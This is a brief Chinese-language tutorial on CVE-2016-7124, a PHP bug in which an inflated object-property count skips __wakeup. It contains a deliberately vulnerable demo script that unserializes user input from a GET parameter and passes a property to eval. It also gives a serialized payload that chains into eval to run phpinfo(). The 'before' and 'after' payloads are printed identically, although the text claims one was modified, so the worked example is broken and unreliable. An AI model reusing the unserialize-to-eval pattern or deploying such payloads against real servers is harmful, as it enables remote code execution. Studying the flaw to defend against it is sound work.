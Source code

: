 ###  CVE-2016-7124

这是一个 PHP 的 CVE，影响版本：

1. PHP5 < 5.6.25
2. PHP7 < 7.0.10

当序列化字符串中表示对象中属性个数的数字，大于真正的属性个数时，就会跳过 `__wakeup` 函数的执行（会触发两个长度相关的 `Notice: Unexpected end of serialized data`）。

demo.php

```php
<?php
highlight_file(__FILE__);
class A {
    public $test;

    function __wakeup() {
        $this->test = new B;
    }

    function __destruct() {
        $this->test->check();
    }
}

class B {
    function check() {
        echo phpversion()."\n";
    }
}

class C {
    public $boom;
    function check() {
        eval($this->boom);
    }
}

if (isset($_GET['payload'])){
    $user = unserialize($_GET['payload']);
}else{
    $user = new A();
    $user->test = new B();
}
```

```
O:1:"A":1:{s:4:"test";O:1:"C":1:{s:4:"boom";s:10:"phpinfo();";}}
修改为
O:1:"A":1:{s:4:"test";O:1:"C":1:{s:4:"boom";s:10:"phpinfo();";}}
即可执行payload
```
